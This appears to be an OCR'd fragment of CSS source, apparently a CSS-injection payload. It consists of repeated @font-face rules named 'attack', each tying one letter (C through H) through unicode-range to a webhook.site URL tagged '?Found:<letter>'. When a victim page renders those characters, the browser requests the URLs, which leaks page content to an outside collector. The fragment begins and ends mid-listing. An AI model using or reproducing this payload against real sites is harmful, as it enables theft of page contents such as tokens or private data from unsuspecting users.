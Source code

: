            unicode-range:U+0042;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:C');

           unicode-range:U+0043;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:D');

           unicode-range:U+0044;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:E');

           unicode-range:U+0045;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:F');

           unicode-range:U+0046;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:G');

           unicode-range:U+0047;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:H');
